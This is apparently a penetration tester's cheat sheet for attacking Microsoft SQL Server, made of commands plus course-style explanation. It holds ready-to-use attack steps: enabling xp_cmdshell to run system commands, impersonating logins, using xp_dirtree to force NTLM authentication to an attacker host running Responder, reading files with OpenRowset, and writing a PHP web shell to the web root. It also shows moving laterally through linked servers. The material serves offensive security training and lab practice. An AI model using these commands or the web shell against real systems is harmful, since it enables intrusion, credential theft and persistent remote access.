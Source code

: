 ##### Scanning
```bash
nmap -Pn -sV -sC -p1433 10.10.10.125

nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 $ip

msfconsole
use auxiliary/scanner/mssql/mssql_ping

mssqlclient.py -p 1433 Administrator:password@$ip -windows-auth
mssqlclient.py -p 1433 .\\Administrator:password@$ip 
mssqlclient.py -p 1433 domain.local/adot8:password@$ip 

netexec mssql 10.10.10.101 -d domain -u adot8 -p password -x "whoami"

sqsh -S 10.129.20.13 -U username -P Password123
```
##### Enumeration
```sql
select @@version;
SELECT name FROM sys.databases;
SELECT name FROM master..sysdatabases;
USE adot8;
SELECT * FROM <databaseName>.INFORMATION_SCHEMA.TABLES;
SELECT name FROM <databaseName>..sysobjects WHERE xtype = 'U';    <-- find users table
select * from <databaseName>.dbo.users;
select * from <databaseName>.dbo.users where name like 'Admin%';
select * from <databaseName>..users;
```
##### **VIEW LINKED SERVERS - LATERAL MOVEMENT**

```powershell
SELECT srvname, isremote FROM sysservers

EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]

1> EXECUTE('master..xp_dirtree ''\\10.10.110.17\share\''') AT [10.0.0.12\SQLEXPRESS]
2> GO
```
##### Configure xp_cmdshell
```sql
sp_configure 'show advanced options', '1';
RECONFIGURE;
sp_configure 'xp_cmdshell', '1';
RECONFIGURE;
xp_cmdshell 'whoami';

exexute sp_configure 'show advanced options', '1';
RECONFIGURE;
exexute sp_configure 'xp_cmdshell', '1';
RECONFIGURE;
exexute xp_cmdshell 'whoami;
```
##### Impersonate User
```sql
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'

enum_impersonate
exec_as_user <grantor>
exec_as_login <grantor>
```
##### Capture Hash
```bash
sudo responder -I tun0
xp_dirtree \\10.10.14.3\adot8\
```

```bash
sudo responder -I tun0
xp_subdirs \\10.10.14.3\adot8\
```
##### Read and copy file
```sql
select x from OpenRowset(BULK 'C:\Users\Administrator\root.txt',SINGLE_CLOB) R(x)

create table #errortable (ignore int)
bulk insert #errortable from '\\localhost\c$\windows\win.ini' with ( fieldterminator=',', rowterminator='\n', errorfile='c:\thatjusthappend.txt' )
```
##### Write local files
```bash
sp_configure 'show advanced options', 1
RECONFIGURE
sp_configure 'Ole Automation Procedures', 1
RECONFIGURE

DECLARE @OLE INT
DECLARE @FileID INT
EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
EXECUTE sp_OADestroy @FileID
EXECUTE sp_OADestroy @OLE
```
[Microsoft SQL](https://www.microsoft.com/en-us/sql-server/sql-server-2019) (`MSSQL`) is Microsoft's SQL-based relational database management system. Unlike MySQL, which we discussed in the last section, MSSQL is closed source and was initially written to run on Windows operating systems. It is popular among database administrators and developers when building applications that run on Microsoft's .NET framework due to its strong native support for .NET.
### MSSQL Clients
[SQL Server Management Studio](https://docs.microsoft.com/en-us/sql/ssms/download-sql-server-management-studio-ssms?view=sql-server-ver15) (`SSMS`) comes as a feature that can be installed with the MSSQL install package or can be downloaded & installed separately. It is commonly installed on the server for initial configuration and long-term management of databases by admins. Keep in mind that since SSMS is a client-side application, it can be installed and used on any system an admin or developer is planning to manage the database from.

**This means we could come across a vulnerable system with SSMS with saved credentials that allow us to connect to the database. The image below shows SSMS in action.**
![[Pasted image 20250103150154.png]]
### MSSQL Databases
|Default System Database|Description|
|---|---|
|`master`|Tracks all system information for an SQL server instance|
|`model`|Template database that acts as a structure for every new database created. Any setting changed in the model database will be reflected in any new database created after changes to the model database|
|`msdb`|The SQL Server Agent uses this database to schedule jobs & alerts|
|`tempdb`|Stores temporary objects|
|`resource`|Read-only database containing system objects included with SQL server|
### Default Configuration
When an admin initially installs and configures MSSQL to be network accessible, the SQL service will likely run as `NT SERVICE\MSSQLSERVER`. Connecting from the client-side is possible through Windows Authentication, and by default, encryption is not enforced when attempting to connect.
![[Pasted image 20250103150210.png]]Authentication being set to `Windows Authentication` means that the underlying Windows OS will process the login request and use either the local SAM database or the domain controller (hosting Active Directory) before allowing connectivity to the database management system. Using Active Directory can be ideal for auditing activity and controlling access in a Windows environment, but if an account is compromised, it could lead to privilege escalation and lateral movement across a Windows domain environment.
### Dangerous Settings
- MSSQL clients not using encryption to connect to the MSSQL server
- The use of self-signed certificates when encryption is being used. It is possible to spoof self-signed certificates
- The use of [named pipes](https://docs.microsoft.com/en-us/sql/tools/configuration-manager/named-pipes-properties?view=sql-server-ver15)
- Weak & default `sa` credentials. Admins may forget to disable this account

`MSSQL` supports two [authentication modes](https://docs.microsoft.com/en-us/sql/connect/ado-net/sql/authentication-sql-server), which means that users can be created in Windows or the SQL Server:

|**Authentication Type**|**Description**|
|---|---|
|`Windows authentication mode`|This is the default, often referred to as `integrated` security because the SQL Server security model is tightly integrated with Windows/Active Directory. Specific Windows user and group accounts are trusted to log in to SQL Server. Windows users who have already been authenticated do not have to present additional credentials.|
|`Mixed mode`|Mixed mode supports authentication by Windows/Active Directory accounts and SQL Server. Username and password pairs are maintained within SQL Server.|
## Communicate with Other Databases with MSSQL

`MSSQL` has a configuration option called [linked servers](https://docs.microsoft.com/en-us/sql/relational-databases/linked-servers/create-linked-servers-sql-server-database-engine). Linked servers are typically configured to enable the database engine to execute a Transact-SQL statement that includes tables in another instance of SQL Server, or another database product such as Oracle.

If we manage to gain access to a SQL Server with a linked server configured, we may be able to move laterally to that database server. Administrators can configure a linked server using credentials from the remote server. If those credentials have sysadmin privileges, we may be able to execute commands in the remote SQL instance. Let's see how we can identify and execute queries on linked servers.
```powershell
1> SELECT srvname, isremote FROM sysservers
2> GO

srvname                             isremote
----------------------------------- --------
DESKTOP-MFERMN4\SQLEXPRESS          1
10.0.0.12\SQLEXPRESS                0

(2 rows affected)
```

As we can see in the query's output, we have the name of the server and the column `isremote`, where `1` means is a remote server, and `0` is a linked server.

Next, we can attempt to identify the user used for the connection and its privileges. The [EXECUTE](https://docs.microsoft.com/en-us/sql/t-sql/language-elements/execute-transact-sql) statement can be used to send pass-through commands to linked servers. We add our command between parenthesis and specify the linked server between square brackets (`[ ]`).

> [!NOTE] Note
> If we need to use quotes in our query to the linked server, we need to use single double quotes to escape the single quote. To run multiples commands at once we can divide them up with a semi colon (;).
```powershell
1> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]
2> GO

------------------------------ ------------------------------ ------------------------------ -----------
DESKTOP-0L9D4KA\SQLEXPRESS     Microsoft SQL Server 2019 (RTM sa_remote                                1

(1 rows affected)
```

```powershell
1> EXECUTE('master..xp_dirtree ''\\10.10.110.17\share\''') AT [10.0.0.12\SQLEXPRESS]
2> GO
```